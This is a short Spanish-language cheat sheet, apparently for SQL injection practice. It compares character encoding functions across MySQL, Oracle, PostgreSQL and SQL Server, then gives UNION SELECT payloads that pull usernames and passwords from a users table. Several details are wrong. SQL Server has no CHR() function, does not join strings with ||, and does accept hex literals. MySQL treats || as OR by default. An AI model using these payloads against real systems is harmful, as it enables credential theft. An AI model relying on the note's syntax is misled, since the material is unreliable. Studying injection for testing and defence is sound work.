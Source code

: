 # Representación de caracteres en motores de base de datos

En cada motor de base de datos, se utilizan distintos métodos para representar caracteres en formato hexadecimal o decimal. 

## ¿Cómo se manejan los valores ASCII en cada uno de los motores de base de datos más comunes?

### Resumen de la diferencia entre los motores de bases de datos:

| Motor de DB    | Función para caracteres en formato decimal | Función para caracteres en formato hexadecimal |
|----------------|--------------------------------------------|-------------------------------------------------|
| **MySQL**      | `CHAR()` (con valor decimal)               | `0xNN` (valor hexadecimal)                      |
| **Oracle**     | `CHR()` (con valor decimal)                | No se usa formato hexadecimal directamente     |
| **PostgreSQL** | `CHR()` (con valor decimal)                | No se usa formato hexadecimal directamente     |
| **SQL Server** | `CHAR()` (con valor decimal)               | No se usa formato hexadecimal directamente     |

### Ejemplos: 

**Nota:** Para dos puntos -->   :

**MySQL**:

```sql
' UNION SELECT NULL, username || 0x3a || password FROM users--'
```

**Oracle/PostgreSQL/SQL Server:**

```SQL
' UNION SELECT NULL, username || CHR(58) || password FROM users--'
```
